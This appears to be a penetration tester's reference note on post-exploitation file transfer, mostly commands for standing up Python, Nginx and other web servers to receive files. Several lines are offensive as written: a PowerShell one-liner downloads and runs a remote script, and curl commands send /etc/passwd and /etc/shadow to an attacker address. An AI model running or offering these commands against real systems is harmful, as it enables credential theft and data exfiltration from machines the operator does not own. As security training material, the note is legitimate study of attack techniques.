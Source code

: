 ```yaml
---
tags:
  - Post-Exploitation
  - DataTransfer
---
```


## Python 

```shell-session
python3 -m http.server --directory /home/user/target_files 443
```

### Upload Server

For our web server, we can use [uploadserver](https://github.com/Densaugeo/uploadserver), an extended module of the Python [HTTP.server module](https://docs.python.org/3/library/http.server.html), which includes a file upload page. Let's install it and start the webserver.

```shell-session
pip3 install uploadserver
```

```shell-session
python3 -m uploadserver
```

See [[CRT (Certificate Files)]]

```shell-session
sudo python3 -m uploadserver 443 --server-certificate ~/server.pem
```
#### PowerShell Script to Upload a File to Python Upload Server

```powershell-session
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
```
```powershell-session
Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts
```

#### Linux Upload Multiple Files 

```shell-session
curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

### Python 2.7

```shell-session
python2.7 -m SimpleHTTPServer
```
# NPM

```
http-server
```

# PHP 

```
php -S 127.0.0.1:8000
```

# Ruby

```shell-session
ruby -run -ehttpd . -p8000
```


# Nginx - Enabling PUT

A good alternative for transferring files to `Apache` is [Nginx](https://www.nginx.com/resources/wiki/) because the configuration is less complicated, and the module system does not lead to security issues as `Apache` can.
#### Change the Owner to www-data

```shell-session
sudo chown -R www-data:www-data /var/www/uploads/SecretUploadDirectory
```

#### Create Nginx Configuration File

Create the Nginx configuration file by creating the file `/etc/nginx/sites-available/upload.conf` with the contents:

```shell-session
server {
    listen 9001;
    
    location /SecretUploadDirectory/ {
        root    /var/www/uploads;
        dav_methods PUT;
    }
}
```

#### Symlink our Site to the sites-enabled Directory

```shell-session
sudo ln -s /etc/nginx/sites-available/upload.conf /etc/nginx/sites-enabled/
```

#### Start Nginx

```shell-session
sudo systemctl restart nginx.service
```

If we get any error messages, check `/var/log/nginx/error.log`

#### Remove NginxDefault Configuration

```shell-session
sudo rm /etc/nginx/sites-enabled/default
```

#### Upload File Using cURL

```shell-session
curl -T /etc/passwd http://localhost:9001/SecretUploadDirectory/users.txt
```

```shell-session
sudo tail -1 /var/www/uploads/SecretUploadDirectory/users.txt 
```